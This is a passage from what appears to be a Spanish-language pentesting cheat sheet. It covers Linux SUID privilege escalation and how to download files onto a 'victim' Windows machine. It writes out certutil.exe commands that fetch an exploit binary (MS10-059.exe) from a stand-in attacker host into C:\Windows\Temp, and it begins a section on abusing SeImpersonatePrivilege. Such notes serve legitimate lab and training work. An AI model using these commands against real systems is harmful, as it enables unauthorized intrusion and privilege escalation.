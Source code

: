 <h2 id="Escalar2">Escalar Privilegios con Binarios SUID</h2>

Este blog, en inglés, explica algunas formas en las que puedes escalar privilegios, recomiendo que lo veas:
* https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/


<br>
<br>
<hr>
<div style="position: relative;">
 <h1 id="Windows" style="text-align:center;">Windows</h1>
  <button style="position:absolute; left:80%; top:3%; background-color:#444444; border-radius:10px; border:none; padding:4px;6px; font-size:0.80rem;">
   <a href="#Indice">Volver al Índice</a>
  </button>
</div>
<br>


<h2 id="Certutil">Descargar Archivos con Certutil Windows</h2>

¿Necesitas descargar archivos en una máquina víctima que usa Windows? Has lo siguiente:
* En tu máquina, abre un servidor en Python en donde tengas el archivo que quieras cargar:
```
python3 -m http.server                                                                     
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
* Ve al directorio **/Temp** de la máquina Windows y crea una carpeta que se llame **/privesc**:
```
c:\>cd Windows/Temp
cd Windows/Temp
c:\Windows\Temp>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5C03-76A8
 Directory of c:\Windows\Temp
c:\Windows\Temp>mkdir Privesc
mkdir Privesc
c:\Windows\Temp>cd Privesc
cd Privesc
```
* Ahora dentro de **/Privesc** vamos a cargar el archivo que deseas con **Certutil**:
```
c:\Windows\Temp\Privesc>certutil.exe -urlcache -split -f http://Tu_IP:8000/Archivo_que_quieres_cargar Nuevo_Nombre
```
Ejemplo:
```
c:\Windows\Temp\Privesc>certutil.exe -urlcache -split -f http://IP_Mia_xd:8000/MS10-059.exe MS10-059.exe
```

<h2 id="Privilegio">Abusar del Privilegio SeImpersonatePrivilege Windows</h2>

Si bien, hay Exploits para casi todo, podemos usar una herramienta para cuando te topes con este privilegio en una máquina Windows.
